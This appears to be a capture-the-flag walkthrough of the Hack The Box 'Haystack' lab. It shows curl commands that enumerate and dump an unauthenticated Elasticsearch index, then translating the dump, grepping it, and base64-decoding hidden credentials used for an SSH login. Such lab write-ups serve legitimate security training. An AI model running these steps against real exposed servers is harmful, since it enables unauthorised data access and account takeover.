 # 15 - Elastic Search


https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch

# Indices
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ curl -s 'http://10.10.10.115:9200/_cat/indices'
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```

To start off, we can dump everything in quotes.

# Dump quotes
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]                                                                                                                                                
└──╼ $ curl -s  'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' | jq  '.hits .hits[] ._source .quote' > spanish.txt
```

The quotes are in Spanish. It could contain sensitive data.


# Google Translate

![](vx_images/3234938736620.png)

Save the translation as english.txt, may want to view the source because it takes some time to translate.

# Hint
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'haystack' english.txt 
&quot;There&#39;s a needle in this haystack, you have to search for it&quot;
```

This is a hint that we are on the right track.

# Credentials
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'password' english.txt 
&quot;I have to save the password for the machine: dXNlcjogc2VjdXJpdHkg&quot;
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'key' english.txt 
&quot;With regard to the fauna of North America, this continent has a great diversity, in it there are more than 400 species of mammals, almost 1000 species of birds, more than 500 species of reptiles and amphibians and about 100 000 species of insects. Notable bears, eagles, turkeys, seals, American bison, wolves, snakes, among others.26 &quot;
&quot;The fauna of Central America has large numbers of mammals that are more common in Guatemala (230 species), Panama (229 species), Nicaragua (225 species), Costa Rica (211 species), El Salvador (210 species) and Honduras (207 species). Mainly there are deer, jaguars, pumas, hummingbirds, torogozes, quetzals (symbolic bird of Guatemala), buzzards, tapirs and macaws. The most common animals in Central America are Quetzal (Pharomachrus mocinno), Green frog (Agalychnis callidryas), Nine-banded armadillo (Dasypus novemcinctus), American crocodile (Crocodylus acutus), Black howler monkey (Alouatta palliata), jaguar, tapirus, anteater, harpy eagle (Harpya harpija), cougar and tapir. 26 27 28 &quot;
&quot;This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =&quot;
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ echo -n dXNlcjogc2VjdXJpdHkg |base64 -d
user: security 
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ echo -n cGFzczogc3BhbmlzaC5pcy5rZXk= |base64 -d
pass: spanish.is.key
```


Found some credentials:

* security:spanish.is.key

# SSH
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ ssh -l security 10.10.10.115 
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
```
